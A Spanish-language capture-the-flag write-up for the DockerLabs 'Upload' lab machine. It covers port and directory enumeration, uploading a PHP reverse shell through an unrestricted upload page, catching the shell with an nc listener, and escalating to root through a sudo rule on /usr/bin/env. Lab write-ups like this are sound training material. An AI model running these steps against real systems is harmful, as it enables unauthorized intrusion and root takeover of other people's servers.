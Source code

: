 # Upload
https://dockerlabs.es

*23/5/2024*

## ENUMERACION

```
└─$ nmap -p- --open --min-rate 5000 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-24 18:04 EDT
Nmap scan report for 172.17.0.2
Host is up (0.00043s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Upload here your file
|_http-server-header: Apache/2.4.52 (Ubuntu)

```
Enumeracion de directorios web
```
└─$ gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html,php.wak
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html,php.wak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 1361]
/uploads              (Status: 301) [Size: 310] [--> http://172.17.0.2/uploads/]
/upload.php           (Status: 200) [Size: 1357]
===============================================================
Finished
===============================================================

```


## ANALISIS DE VULNERABILIDADES

Esta pagina que descrubrimos funciona con php y permite cargar archivos para luego ser ejecutados

```
![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/d968530a-dd07-485c-9de2-750e03411c7d)

```


## EXPLOTACION

Crearemos un archivo .php el cual genere una reverse shell, puedes utilizar esta pagina para generarla, descargarla por github o crearla tu mismo

![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/507a7464-bb1c-4abd-8d9e-f4baa5e1cd6d)

Lo cargamos a la pagina

![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/c9436da4-3a09-49de-ac7c-ae4dc3746ecb)

Nos ponemos en escucha por el puerto 443
```
└─$ sudo nc -nvlp 443                              
listening on [any] 443 ...
```

Y lo ejecutamos por medio del navegador

![image](https://github.com/M1queaa/DOCKERLABS/assets/108646257/d64cdff7-94a2-4c26-aa09-5adbdf32764b)

Y nos devolvera una reverse shell
```
connect to [192.168.0.22] from (UNKNOWN) [172.17.0.2] 53608
SOCKET: Shell has connected! PID: 61
whoami
www-data
```


## POST-EXPLOTACION

Escalamos privilegios
```
sudo -l
Matching Defaults entries for www-data on 0936e4313479:                                                             
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on 0936e4313479:
    (root) NOPASSWD: /usr/bin/env
sudo env /bin/sh
whoami
root
```

Y tratamos las TTY
```
script /dev/null -c bash
Script started, output log file is '/dev/null'.                                                                     
root@0936e4313479:/var/www#
```
